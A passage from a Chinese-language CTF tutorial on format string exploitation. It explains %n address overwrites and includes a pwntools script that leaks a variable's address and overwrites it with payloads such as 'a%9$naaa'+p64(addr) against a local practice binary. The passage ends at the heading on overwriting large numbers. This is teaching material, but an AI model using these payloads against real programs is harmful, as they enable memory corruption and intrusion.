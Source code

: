 然后可以发现buf在a下面，也就是偏移量要减1.

对于地址覆盖，我们常用的是：

```c
...[overwrite addr]....%[overwrite offset]$n
```

其中... 表示我们的填充内容，overwrite addr 表示我们所要覆盖的地址，overwrite offset 地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。所以一般来说，也是如下步骤

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

 由于目前几乎所有的程序都开启了 aslr 保护，所以栈的地址一直在变，所以我们这里故意输出了 a 变量的地址。 

现在按照前面学习的方法获得偏移量（去找61616161）。

```python
from pwn import *

binary_path = "/home/feeling/ctf/exam/fmt2/fmt2"
e = ELF(binary_path)
context.terminal=["cmd.exe","/c", "start", "cmd.exe", "/c", "wsl.exe", "-e"]
context(log_level='debug', os='linux', arch='amd64')
io = process(binary_path)

io.recvuntil(b'a_addr:')
a_addr = int(io.recvline().strip(),16)
print(hex(a_addr))

#pay=b'aaaa'+b'-%p'*20
offset=8		#这个是到buf的位置。
#要覆盖成1.
payload= p64(a_addr) + b'%8$n'
# payload = p32(c_addr) + '%012d' + '%6$n'  这个是wiki的
io.sendline(payload)
io.interactive()
```

正常来说是按照上面的，但是我这题出的有心机，我们知道`%n`要在指定位置输入的是已经输入的字符个数，但是我们一个p64（）就是8个字节，想要变成1我们还要学习一个小知识点：

#### **覆盖小数字**

聪明如你肯定想到了上一节我们遇到的问题，这里我们也是一样，把这个payload反过来：

```python
payload=b'a%9$naaa'+p64(a_addr)		#这个时候这个地址的位置放在后面但是可以正确索引到这个地址。
```

然后我们就可以覆盖成功啦，可以得到：

![pEsz5DI.png](https://s21.ax1x.com/2025/03/31/pEsz5DI.png)

 其实，这里我们需要掌握的小技巧就是，**我们没有必要把地址放在最前面**，放在哪里都可以，只要我们可以**找到其对应的偏移即可**。 

#### 覆盖大数字
